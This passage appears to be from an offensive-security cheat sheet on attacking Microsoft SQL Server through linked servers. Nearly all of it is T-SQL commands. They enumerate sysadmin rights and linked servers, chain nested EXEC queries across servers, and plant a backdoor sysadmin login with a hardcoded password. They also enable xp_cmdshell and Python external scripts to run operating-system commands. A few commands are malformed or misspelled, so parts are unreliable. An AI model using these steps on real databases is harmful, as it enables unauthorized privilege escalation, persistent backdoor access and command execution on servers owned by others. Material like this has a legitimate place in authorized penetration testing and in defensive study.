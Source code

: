     select name,sysadmin from syslogins; 

OR 

    SELECT IS_SRVROLEMEMBER('sysadmin');

If it returns 1, the user has admin privileges.

#### 2) Check if there are any linked servers on the current database. Isremote determines if it is linked or remote. If it is 1, it means it is linked, else is remote.

    select srvname, isremote from sysservers; 

#### 3) Check in whose context we are able to query the linked server

    EXEC ('select current_user') at [NAME\REMOTE_DATABASE]; 

#### 4) Check for sysadmin sa privileges

    EXEC ('select name,sysadmin from syslogins') at [NAME\REMOTE DATABASE]; 

#### 5) Check the remote DB server if it has more links

    EXEC ('select srvname,isremote from sysservers') at [NAME\REMOTE_DATABASE]; 

#### 6) Nested queries. This use case means that we have encountered a circular link between database servers!

    EXEC ('EXEC (''select susername()'') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE]; 

#### 7) If we are sa, then we add a user with sysadmin privileges for us

    EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

    EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

### COMMAND EXECUTION WITH XP_CMDSHELL

#### 1) Enable command execution

    enable xp_cmdshell 
 
    xp_cmdshell whoami

#### 2) Enable execution of external scripts written in R or python

    EXECUTE sp_configure 'external scripts enabled', 1; 

#### 3) Run commands using Python

    EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("COMMAND");'; 
